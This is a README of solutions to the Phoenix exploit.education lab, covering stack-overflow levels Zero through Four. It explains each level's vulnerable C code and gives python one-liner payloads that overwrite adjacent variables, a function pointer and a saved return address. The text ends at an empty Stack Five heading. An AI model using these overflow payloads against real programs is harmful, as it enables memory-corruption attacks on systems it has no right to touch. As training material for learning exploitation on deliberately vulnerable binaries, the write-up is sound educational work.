


# [Phoenix](https://exploit.education/phoenix/)

- All code under the `src/*` folder is from [exploit.education](https://exploit.education)

## Usage

- Install `QEMU-system-<arch>` package
- Download the Qcow2 QEMU Image, extract the content, run the `*.sh` script to start the QEMU Image.
- Upon the boot sequence complete, login with user / user, or root / root., or `ssh user@127.0.0.1 -p 2222`
- Quote from [GETTING STARTED](https://exploit.education/phoenix/getting-started/):

> The kernel.core_pattern is set to /var/lib/coredumps/core.%e.%s.%p, so check in /var/lib/coredumps for the final levels, if exploiting over the network.
> Files to be exploited reside in /opt/phoenix/<architecture> (e.g. amd64, i486, arm64, amd, etc)
> SUID files won’t create a core dump, so make a copy of the files as needed for exploit development purposes.


## STACK ZERO (Overwrite the next stack variable; gets())

- [STACK_ZERO-SRC](./src/stack-zero.c)

- Explain && Solution:

```sh
# ------------------------------------SRC-----------------------------------------
# struct {
#   char buffer[64];
#   volatile int changeme;
# } locals;
# ...
# gets(locals.buffer);
# ...
# if (locals.changeme != 0) {
# ...
# ------------------------------------EXPLAIN-------------------------------------
# - man 3 gets:
#
# SYNOPSIS
#        #include <stdio.h>
#
#        char *gets(char *s);
#
# gets() reads a line from stdin into the buffer pointed to by s until either
# a terminating newline or EOF, which it replaces with a null byte ('\0').
# ------------------------------------SOLUTION------------------------------------
# Input 64+ chars to overwrite the next stack variable.
python3 -c 'print("A" * 65 + "\n")' | ./stack-zero
```


## STACK ONE (Endianess. strcpy())

- [STACK_ONE-SRC](./src/stack-one.c)

- Explain && Solution:

```sh
# ------------------------------------SRC-----------------------------------------
# struct {
#   char buffer[64];
#   volatile int changeme;
# } locals;
# ...
# strcpy(locals.buffer, argv[1]);
# ...
# if (locals.changeme == 0x496c5962) {
# ...
# ------------------------------------EXPLAIN-------------------------------------
# - BIG ENDIAN
# - man 3 strcpy:
#
# SYNOPSIS
#      #include <string.h>
#
#      char *strcpy(char *dest, const char *src);
#
#      char *strncpy(char *dest, const char *src, size_t n);
#
# ------------------------------------SOLUTION------------------------------------
# Input 64 char + string in BIG ENDIAN to overwrite
./stack-one $(python3 -c 'print("A" * 64 + "\x62\x59\x6c\x49")')
```


## STACK TWO (Use an environment variable; strcpy())

- [STACK_TWO-SRC](./src/stack-two.c)

- Explain && Solution:

```sh
# ------------------------------------SRC-----------------------------------------
# struct {
#   char buffer[64];
#   volatile int changeme;
# } locals;
# ...
# ptr = getenv("ExploitEducation");
# ...
# strcpy(locals.buffer, ptr);
# ...
# if (locals.changeme == 0x0d0a090a) {
# ...
# ------------------------------------EXPLAIN-------------------------------------
# - man 3 getenv
# ------------------------------------SOLUTION------------------------------------
# Need the `export` to work.
export ExploitEducation=$(python3 -c 'print("A" * 64 + "\x0a\x09\x0a\x0d")'); ./stack-two
```


## STACK THREE (Find fixed addresses; objdump; gets())

- [STACK_THREE-SRC](./src/stack-three.c)

- Explain && Solution:

```sh
# ------------------------------------SRC-----------------------------------------
# void complete_level() { ... }
# int main(int argc, char **argv) {
#   struct {
#     char buffer[64];
#     volatile int (*fp)();
#   } locals;
#   ...
#   gets(locals.buffer);
#   ...
#     locals.fp();
#   ...
#   exit(0);
# }
# ------------------------------------EXPLAIN-------------------------------------
# - man objdump
# - objdump -d stack-three
# - objdump -t stack-three
# ------------------------------------SOLUTION------------------------------------
echo -en "$(python3 -c 'print("A" * 64)')\x9d\x06\x40\x00" | ./stack-three
```

- The symbol `complete_level` is a Global(g) Function(F)


## STACK FOUR (Memory layout, call, ret, rip, eip, Function Prologue, Function Epilogue)

- [STACK_FOUR-SRC](./src/stack-four.c)

- Solution:

```sh
# ------------------------------------SRC-----------------------------------------
# void complete_level() { ... }
#
# void start_level() {
#   char buffer[64];
#   void *ret;
#
#   gets(buffer);
#
#   ret = __builtin_return_address(0);
#   printf("and will be returning to %p\n", ret);
# }
#
# int main(int argc, char **argv) {
#   ...
#   start_level();
# }
# ------------------------------------SOLUTION------------------------------------
# r < ./input.txt
r <<< $(python3 -c '(print("A"*64 + "BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK"))')
echo -en "$(python3 -c 'print("A"*64 + "G"*4*6)')\x1d\x06\x40\x00" | ./stack-four
```


### EXPLAIN (LINUX MEMORY MAPPING, FUNCTION PROLOGUE && FUNCTION EPILOGUE)


- To confirm, `sudo cat /proc/1/maps`, or see [Memory Mapping, Linux Kernel doc](https://linux-kernel-labs.github.io/refs/heads/master/labs/memory_mapping.html)
- More details in [Memory Mapping and DMA, LDD3-ch15](https://static.lwn.net/images/pdf/LDD3/ch15.pdf)


### EXPLAIN (How do RIP or EIP change on ret)

- **The `RIP` or `EIP` will also be pushed or poped to the stack.**
- **This register manipulation is a part of the `call` and `ret` instructions.**
- In stack-four:
  + By overrunning the stack, we can overwrite the stored `rbp` (of the `main()` function).
  + Then, the Function Epilogue starts, `mov rsp, rbp` `pop rbp`. Note that `rsp` always points to the top (the smallest address) of the stack.
  + The `ret`, by definition, will pop a value off the stack, and set `rip` to that value.
- We can confirm that by setting a breakpoint on `ret`, then inspect the field where `rsp` points to. The value will equal to the `rip` address on crash, as shown in the following screenshot:




- More details about the `call` and `ret` behaviour, see [Intel® 64 and IA-32 Architectures Software Developer’s Manual](https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html):




## STACK FIVE


